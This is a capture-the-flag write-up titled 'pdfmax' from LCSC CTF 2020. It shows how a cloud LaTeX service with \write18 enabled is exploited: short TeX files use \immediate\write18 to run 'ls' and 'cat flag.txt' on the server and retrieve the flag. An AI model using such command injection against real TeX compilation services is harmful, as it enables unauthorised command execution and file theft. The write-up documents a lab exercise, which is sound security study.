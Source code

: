 ```yaml
---
layout: writeup
title:  "pdfmax"
date:   2020-03-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
ctf_categories: [miscellaneous,LaTeX]
author: "Trigleos"
---
```


# pdfmax


## TL;DR
Exploit the misconfiguration of the pdftex service running as backend to execute commands and gain access to the flag file

## Description
We are given a port to connect to and the info that this challenge probably has to do something with pdfs.

When connected to the service, we can choose between 3 options. 

Option 1 tells us that pdfmax is a cloud LaTeX interpreter and that it can compile any TeX files we'd like. Option 2 lets us write the TeX files and option 3 lets us compile them

After toying around with different input options, I noticed that the compile feature cuts the connection when trying to compile a partially faulty TeX file. The smallest file that could be submitted was of this structure:

```
\documentclass{article}
\begin{document}
\end{document}
```

After compiling this TeX file, the service tells us that it is running pdfTeX and that \write18 is enabled. With this info, we can start to exploit the service and get access to the backend server

## Command injection

The TeX \write command lets you write to a file that is specified after the command. However, 18 specifies the bash terminal, so \write18 allows us to send commands to the terminal. However, normally these commands are only completed once the page has finished compiling. To circumvent this we need to put \immediate before \write18 to tell the compiler to execute the command immediately.

The next step would be to run the ls command to see what's in the directory that the service is running in:
```
\documentclass{article}
\begin{document}
\immediate\write18{ls}
\end{document}
```
We see that a flag.txt file is part of the directory so we access it:
```
\documentclass{article}
\begin{document}
\immediate\write18{cat flag.txt}
\end{document}
```
And we get the flag LLS{write18_my_flag_down_immediately}
